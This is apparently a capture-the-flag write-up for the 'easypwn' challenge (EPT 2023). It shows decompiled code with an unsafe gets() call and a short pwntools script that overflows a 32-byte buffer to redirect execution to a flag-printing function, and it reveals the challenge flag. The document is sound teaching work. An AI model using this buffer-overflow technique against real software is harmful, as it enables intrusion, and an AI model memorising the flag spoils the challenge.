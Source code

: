 # easypwn

author: surprior
flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`

## Solve

### Reversing
This challenge consisted of a main function which called a function called `hello`

```c
undefined8 main(void)

{
  ignore_me_init_buffering();
  hello();
  return 0;
}
```


The function `hello` prompts the user for a name, and prints it back out. The vulnerability is the use of gets.
```c
void hello(void)

{
  char local_28 [32];
  
  puts("Hello!");
  puts("What\'s your name? ");
  gets(local_28);
  printf("Goodbye, %s!\n",local_28);
  return;
}
```

We can therefore input a lot of chars to overflow the buffer and overwrite `rip`. We need somewhere to jump after overwriting `rip`. Luckily there exists a function called `winnner` that opens and prints `flag.txt`

```c

void winner(void)

{
  int __c;
  int iVar1;
  FILE *__stream;
  
  __stream = (FILE *)FUN_00401140("flag.txt",&DAT_00402008);
  if (__stream == (FILE *)0x0) {
    puts("Unable to open the file \'flag.txt\'");
  }
  else {
    puts("You are Winner! Flag:");
    while( true ) {
      __c = fgetc(__stream);
      iVar1 = feof(__stream);
      if (iVar1 != 0) break;
      putchar(__c);
    }
    putchar(10);
    fclose(__stream);
  }
  return;
}
```


### Creating the exploit

We send a lot of chars into the program and see it crash at the `ret` of the `hello` function
![](EPT_2023/easypwn/img1.png)

We can then find the offset, which in this case is 40.
![](EPT_2023/easypwn/img2.png)

The script will therefore look like this
```python
io = start()

payload = b"A"*40
payload += p64(exe.sym.winner)

io.recvuntil(b"What's your name? \n")
io.sendline(payload)

io.interactive()
```


By running this we get the flag!
![](EPT_2023/easypwn/img3.png)

The whole exploit script can be found here: [exploit.py](exploit.py)
